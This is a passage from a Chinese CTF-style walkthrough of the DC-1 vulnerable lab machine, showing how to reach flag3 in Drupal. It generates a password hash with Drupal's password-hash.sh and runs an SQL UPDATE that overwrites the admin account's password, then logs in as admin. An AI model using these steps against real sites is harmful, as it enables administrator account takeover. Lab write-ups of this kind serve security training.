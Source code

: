 查看users表，添加admin1成功

![img](靶机DC-1/20190927163259638.png)

使用新添加的用户admin1/admin1登录网站，在content模块下，找到flag3

**方法二：**

使用Drupal对数据库的加密方法，加密脚本位置在网站根目录下的scripts下

使用加密脚本加密新密码123456，生成加密密文

```bash
./scripts/password-hash.sh 123456
password: 123456             
hash: $S$DbpIRKV5QXrJK4Gbhb.LDFoTjqoYNKAOB.DY3V1BL.JMbMkZANhY
```

![img](靶机DC-1/20190927163259630.png)

修改admin用户的密码，更新为新密码：123456

```bash
update  drupaldb.users  set pass="$S$DbpIRKV5QXrJK4Gbhb.LDFoTjqoYNKAOB.DY3V1BL.JMbMkZANhY" where uid=1;
```

![img](靶机DC-1/20190927170432873.png)

使用用户admin/123456登录网站，在content模块下，找到flag3
